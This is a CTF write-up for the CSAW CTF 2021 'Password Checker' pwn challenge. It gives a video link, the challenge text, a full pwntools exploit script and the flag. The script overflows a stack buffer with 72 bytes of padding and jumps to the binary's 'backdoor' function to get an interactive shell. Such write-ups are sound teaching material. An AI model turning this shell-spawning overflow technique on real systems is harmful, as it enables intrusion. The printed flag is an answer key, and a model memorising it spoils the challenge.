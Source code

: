 ```yaml
---
name: Password Checker (2021)
event: CSAW CTF 2021
category: Pwn
description: Writeup for Password Checker (pwn) - CSAW CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Password Checker

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/1Dw21NoxXjE/0.jpg)](https://youtu.be/1Dw21NoxXjE?t=315s "CSAW 2021: Password Checker")

## Challenge Description

> Charlie forgot his password to login into his Office portal. Help him to find it.

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './password_checker'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 72

# Start program
io = start()

# Build the payload
payload = flat([
    offset * "A",
    elf.symbols.backdoor
])

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter('>', payload)

# Got Shell?
io.interactive()
```

Flag: `flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}`
